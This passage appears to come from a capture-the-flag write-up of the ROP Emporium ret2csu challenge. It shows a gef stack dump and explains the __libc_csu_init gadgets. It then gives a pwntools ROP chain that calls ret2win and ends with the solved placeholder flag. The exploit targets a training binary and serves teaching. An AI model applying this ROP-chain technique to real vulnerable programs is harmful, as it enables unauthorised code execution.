 ```asm
0032| 0x7fffffffe018 --> 0x0 
0040| 0x7fffffffe020 --> 0x0 
0048| 0x7fffffffe028 --> 0x0 
0056| 0x7fffffffe030 --> 0x4006a3 (<__libc_csu_init+99>:	pop    rdi)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gef➤  
```

Looks like it will continue until it hits gadget1 again.  
Let's just make sure rbp = 0x1 and rbx = 0x0, and we should be able to continue onto gadget1.  
Oh also, we'll put a random garbage value on the stack to account for the `add rsp, 0x8` instruction.  

After this, we'll return to our `pop rdi` instruction, and we should be gtg.

Let's spin up ROP chain using pwntools:
```python
rop_chain = [
        buf,
        ebp,
        gadget1,
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # rbx 
        b'\x01\x00\x00\x00\x00\x00\x00\x00',    # rbp
        nothing_gadget,                         # r12
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # r13
        b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca',    # r14
        b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0',    # r15
        gadget2,                                # call [r12 + rbx*8] should point to nothing gadget, which will return to gadget2
        # add 1 to ebp, cmp to ebx
        # add 0x8 to esp
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # garbage
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # rbx
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # rbp
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # r12
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # r13
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # r14
        b'\x00\x00\x00\x00\x00\x00\x00\x00',    # r15
        pop_rdi,
        b"\xef\xbe\xad\xde\xef\xbe\xad\xde",
        ret2win,
        ]
```

Full python script is available as well.  

```sh
ubuntu@ubuntu:~/ropemporium/ret2csu$ python3 exploit.py 2>/dev/null  | grep "ROPE"
ROPE{a_placeholder_32byte_flag!}
```




		          
		          
		          
		          
		          







